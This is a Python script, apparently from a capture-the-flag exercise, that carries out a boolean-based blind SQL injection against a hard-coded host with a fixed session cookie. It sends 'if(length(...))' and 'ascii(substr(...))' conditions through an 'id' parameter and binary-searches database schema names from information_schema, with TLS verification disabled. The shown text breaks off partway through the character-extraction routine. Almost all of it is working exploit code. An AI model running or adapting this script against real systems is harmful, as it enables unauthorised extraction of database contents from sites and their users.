 ```python
#!/usr/bin/env python3
# -*- coding:utf-8 -*-

import os
import requests
import urllib.parse
import urllib3
from urllib3.exceptions import InsecureRequestWarning
urllib3.disable_warnings(InsecureRequestWarning)

url = "http://35.227.24.107/2116b46989/fetch"
cookie = "d8iuvjr50tjvrmaj2gf97ts6bl"
headers= {'Cookie':'PHPSESSID='+cookie}

def attack(attack_sql):
    attack_url = url + "?id=1" + urllib.parse.quote(attack_sql)
    #print(attack_url)
    res = requests.get(attack_url, headers=headers,verify=False)
    #print(res.text)
    return res

def create_length_query(md,times):
    query = " and if(length((SELECT table_schema from  information_schema.columns group by table_schema limit " +str(times) + ",1)) >= " + str(md) + ",1=1,1=3) -- -"
    #print(query)
    return query

def create_2tansaku_query(md,i,times):
    query = " and if(ascii(substr((SELECT table_schema from  information_schema.columns group by table_schema limit " +str(times) +",1)," +str(i) + ",1)) >= " + str(md) + ",1=1,1=3) -- -"
    #print(query)
    return query


def check_result(res):
    if '404 Not Found' in res.text:
        return False
    if '500 Internal Server Error' in res.text:
        return False
    return True

### main     ###
####################

def exploit_length(times):
    ok = 0
    ng = 100
    while ok + 1 != ng:
        md = (ok + ng) // 2
        print("    [+] try " + str(md) + "  times:" + str(times))
        query = create_length_query(md,times)
        res = attack(query)
        if check_result(res):
            ok = md
        else:
            ng = md
    print("")
    print("length: " + str(ok) + "  " +str(times) + " times")
    print("")
    return ok
        
def exploit_2tansaku(length,times):
    fix_pass = ""
```